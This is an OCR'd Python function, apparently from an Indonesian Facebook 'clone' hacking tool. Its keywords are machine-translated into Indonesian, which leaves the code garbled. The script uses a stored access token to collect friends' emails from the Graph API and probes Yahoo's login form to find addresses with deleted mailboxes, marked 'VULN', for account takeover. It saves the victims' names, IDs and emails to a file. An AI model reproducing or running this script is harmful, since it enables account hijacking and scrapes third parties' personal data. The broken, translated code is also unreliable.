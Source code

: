
def clone_dari_daftar_teman ():
	toket global
	os.system ('reset')
	mencoba:
		toket = open ('login.txt', 'r'). read ()
	kecuali IOError:
		cetak "\ 033 [1; 91m [!] Token Tidak Valid"
		os.system ('rm -rf login.txt')
		time.sleep (1)
		keluar ()
	mencoba:
		os.mkdir ('keluar')
	kecuali OSError:
		lulus
	os.system ('jelas')
	cetak logo
	mpsh = []
	jml = 0
	cetak 42 * "\ 033 [1; 96m ="
	jalan ('\ 033 [1; 96m [\ x1b [1; 97m✺ \ x1b [1; 96m] \ 033 [1; 93mMengambil email \ 033 [1; 97m ...')
	teman = requests.get ('https://graph.facebook.com/me/friends?access_token='+toket)
	kimak = json.loads (teman.text)
	jalan ('\ 033 [1; 96m [\ x1b [1; 97m✺ \ x1b [1; 96m] \ 033 [1; 93m Mulai \ 033 [1; 97m ...')
	cetak ('\ x1b [1; 96m [!] \ x1b [1; 93mHentikan CTRL + z')
	cetak 42 * "\ 033 [1; 96m ="
	untuk w di kimak ['data']:
		jml + = 1
		mpsh.append (jml)
		id = w ['id']
		nama = w ['name']
		links = requests.get ("https://graph.facebook.com/" + id + "? access_token =" + toket)
		z = json.loads (links.text)
		mencoba:
			mail = z ['email']
			yahoo = re.compile (r '@. *')
			otw = yahoo.search (mail) .group ()
			if 'yahoo.com' dalam otw:
				br.open ("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = Benar
				br.select_form (nr = 0)
				br ["username"] = email
				klik = br.submit (). read ()
				jok = re.compile (r '"messages.ERROR_INVALID_USERNAME">. *')
				mencoba:
					pek = jok.search (klik) .group ()
				kecuali:
					terus
				jika '"messages.ERROR_INVALID_USERNAME">' di pek:
					cetak ("\ 033 [1; 96m [✓] \ 033 [1; 92mVULN")
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mID \ 033 [1; 91m: \ 033 [1; 92m" + id)
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mEmail \ 033 [1; 91m: \ 033 [1; 92m" + mail)
					cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mNama \ 033 [1; 91m: \ 033 [1; 92m" + nama + '\ n')
					save = open ('out / MailVuln.txt', 'a')
					save.write ("Nama:" + nama + '\ n' "ID:" + id + '\ n' "Email:" + mail + '\ n \ n')
					save.close ()
					berhasil.append (mail)
		kecuali KeyError:
			lulus
	cetak 42 * "\ 033 [1; 96m ="
	cetak '\ 033 [1; 96m [\ 033 [1; 97m.2016 \ 033 [1; 96m] \ 033 [1; 92mSelesai \ 033 [1; 97m ....'
	print "\ 033 [1; 96m [+] \ 033 [1; 92mTotal \ 033 [1; 91m: \ 033 [1; 97m" + str (len (berhasil))
